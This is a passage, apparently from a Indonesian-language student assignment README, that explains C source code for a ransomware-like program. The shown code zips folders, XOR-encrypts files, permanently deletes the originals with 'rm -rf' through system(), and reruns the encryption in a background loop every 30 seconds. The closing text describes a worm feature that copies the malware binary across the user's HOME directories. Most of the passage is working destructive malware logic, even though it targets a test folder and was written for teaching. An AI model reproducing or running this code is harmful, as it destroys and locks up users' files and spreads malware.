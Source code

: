 ```
void zip_and_encrypt(const char *folder_path) {
    char zip_cmd[8192];
    snprintf(zip_cmd, sizeof(zip_cmd), "zip -r -q '%s.zip' '%s' && rm -rf '%s'", folder_path, folder_path, folder_path);
    system(zip_cmd);  // Jalankan perintah zip dan hapus folder

    char zip_file[4096];
    snprintf(zip_file, sizeof(zip_file), "%s.zip", folder_path);
    xor_encrypt(zip_file);  // Enkripsi file zip
}
```
Folder dikompresi menjadi `.zip`, lalu hasil file `.zip` akan dienkripsi. Folder aslinya kemudian dihapus secara permanen.

```
void wannacryptor(const char *target) {
    DIR *dir = opendir(target);
    if (!dir) return;

    struct dirent *entry;
    while ((entry = readdir(dir)) != NULL) {
        if (!strcmp(entry->d_name, ".") || !strcmp(entry->d_name, "..")) continue;

        char path[4096];
        snprintf(path, sizeof(path), "%s/%s", target, entry->d_name);

        struct stat st;
        if (stat(path, &st) == -1) continue;

        if (S_ISDIR(st.st_mode)) {
            zip_and_encrypt(path);  // Kelompok GENAP
        } else if (S_ISREG(st.st_mode)) {
            xor_encrypt(path);  // Enkripsi file langsung
        }
    }
    closedir(dir);
}
```
Program memindai semua isi direktori target (./test). Bila menemukan folder, dilakukan zip + enkripsi. Bila menemukan file biasa, langsung dienkripsi.

```
void *loop_crypto(void *arg) {
    while (1) {
        wannacryptor(FOLDER_TARGET);
        sleep(30);
    }
}
```
Fungsi wannacryptor dipanggil setiap 30 detik dalam thread `loop_crypto`, sehingga proses enkripsi berjalan terus-menerus di background.

### C. Fitur trojan.wrm bertugas menyebarkan malware dengan cara menduplikasi file binary malware (runme) ke seluruh direktori yang ada di dalam folder HOME milik user.
